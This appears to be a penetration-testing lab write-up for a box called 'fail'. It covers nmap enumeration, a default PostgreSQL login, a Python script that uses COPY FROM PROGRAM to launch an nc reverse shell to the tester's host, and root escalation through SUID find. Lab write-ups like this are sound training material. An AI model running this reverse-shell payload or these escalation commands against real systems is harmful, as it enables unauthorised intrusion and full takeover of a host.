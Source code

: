 # Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap --top-ports=50 -Pn 192.168.201.47            
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 09:38 +0330
Nmap scan report for 192.168.201.47
Host is up (0.24s latency).
Not shown: 45 filtered tcp ports (no-response)
PORT    STATE  SERVICE
21/tcp  open   ftp
22/tcp  open   ssh
80/tcp  open   http
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds


┌──(aaron㉿aacai)-[~/Desktop/pg/Nibbles/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.201.47 -t full

Running a full scan on 192.168.201.47

Host is likely running Unknown OS!

---------------------Starting Full Scan------------------------                                                                                       
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
5437/tcp open  pmip6-data

Making a script scan on all ports
                                                                                                                                                                                                                                

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
|_http-server-header: Apache/2.4.38 (Debian)
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Use the `nmapAutomator` we can know 5437 is a `postgresql`.

Now try the default username and password to login `postgresql`.

<img src="../Images/image-20230810144320408.png" alt="image-20230810144320408" style="zoom:80%;" />

Cool it's work.

Then check the user permission.

<img src="../Images/image-20230810144340226.png" alt="image-20230810144340226" style="zoom:80%;" />

We are a super user, also have create role, replication, Bypass RLS permission. So right now need to get rev shell from `pgsql`.

Use the rev script from [PostgreSQL RCE](https://github.com/squid22/PostgreSQL_RCE), change the RHOST

```python
#!/usr/bin/env python3
import psycopg2


RHOST = '192.168.201.47'
RPORT = 5437
LHOST = '192.168.45.204'
LPORT = 80
USER = 'postgres'
PASSWD = 'postgres'

with psycopg2.connect(host=RHOST, port=RPORT, user=USER, password=PASSWD) as conn:
    try:
        cur = conn.cursor()
        print("[!] Connected to the PostgreSQL database")
        rev_shell = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {LHOST} {LPORT} >/tmp/f"
        print(f"[*] Executing the payload. Please check if you got a reverse shell!\n")
        cur.execute('DROP TABLE IF EXISTS cmd_exec')
        cur.execute('CREATE TABLE cmd_exec(cmd_output text)')
        cur.execute('COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\'')
        cur.execute('SELEC * from cmd_exec')
        v = cur.fetchone()
        #print(v)
        cur.close()

    except:
        print(f"[!] Something went wrong")

```

Then running.

<img src="../Images/image-20230810152538054.png" alt="image-20230810152538054" style="zoom:80%;" />

Get rev shell.

# PE

## Information Collection

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                               
strings Not Found                                                                                                                              
strace Not Found                                                                                                                               
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                      
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                                        
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)

```

<img src="../Images/image-20230810152816262.png" alt="image-20230810152816262" style="zoom:80%;" />

The find was highlighted with linpeas, which means we can use find to PE. [GTFobins](https://gtfobins.github.io/gtfobins/find/)

```bash
$ /usr/bin/find . -exec /bin/sh -p \; -quit
id
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
whoami
root
```

